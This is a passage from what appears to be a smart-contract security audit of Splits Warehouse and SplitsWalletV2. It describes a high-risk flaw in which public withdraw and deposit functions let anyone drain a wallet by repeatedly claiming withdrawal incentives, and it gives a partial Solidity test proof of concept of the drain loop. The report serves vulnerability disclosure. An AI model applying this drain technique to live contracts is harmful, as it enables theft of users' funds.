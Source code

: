 **Auditor**

[Zach Obront](https://twitter.com/zachobront)

# Findings

## High Risk

### [H-01] If any Splits Wallet sets up incentives on Warehouse, all funds can be stolen

There are two forms of incentives that can be added for distributions. On the `SplitsWarehouse`, incentives are added to the WithdrawConfig, and on the `SplitsWalletV2`, incentives are baked into the Split struct.

In the event that a Splits Wallet sets up any incentives on the Warehouse (and has their withdrawal config set to unpaused, which is the default state), this can be used to drain all funds from a user.

This is the case because the `warehouse.withdraw()` function and the `wallet.depositToWarehouse()` functions are public and permissionless. This means any use can withdraw, claiming the incentive, and force the wallet to immediately redeposit the funds. After enough cycles, the attacker will have claimed almost all of the assets.

**Proof of Concept**

The following test can be dropped into `SplitWalletV2.t.sol` to demonstrate the attack.

```solidity
function testZach_IncentiveDrain() public {
    // set up an initial split, note that the parameters (including incentives) don't matter
    SplitReceiver[] memory _receivers = new SplitReceiver[](2);
    _receivers[0] = SplitReceiver({ receiver: address(1), allocation: 100 });
    _receivers[1] = SplitReceiver({ receiver: address(2), allocation: 100 });
    uint16 _distributionIncentive = 0;
    bool _distributeByPush = true;
    SplitV2Lib.Split memory split = createSplitParams(_receivers, _distributionIncentive, _distributeByPush);
    address token = address(usdc);
    wallet.initialize(split, ALICE.addr);

    // ensure that an incentive is set on the Warehouse (we set at 1%, but can be any value)
    vm.prank(address(wallet));
    SplitsWarehouse.WithdrawConfig memory _config = SplitsWarehouse.WithdrawConfig({
        incentive: 1e4,
        paused: false
    });
    warehouse.setWithdrawConfig(_config);

    // deal the split $1mm to start
    dealSplit(address(wallet), token, 0, 1_000_000e6);

    // begin the attack
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);

    address[] memory _tokens = new address[](1);
    _tokens[0] = token;
    uint[] memory _amounts = new uint[](1);
    uint amountInWallet;

    // perform 2000 cycles of withdrawing (for an incentive) and redepositing, earning 1% each time
    for (uint i; i < 2000; i++) {
        (, _amounts[0]) = wallet.getSplitBalance(token);
        warehouse.withdraw(address(wallet), _tokens, _amounts, attacker);
```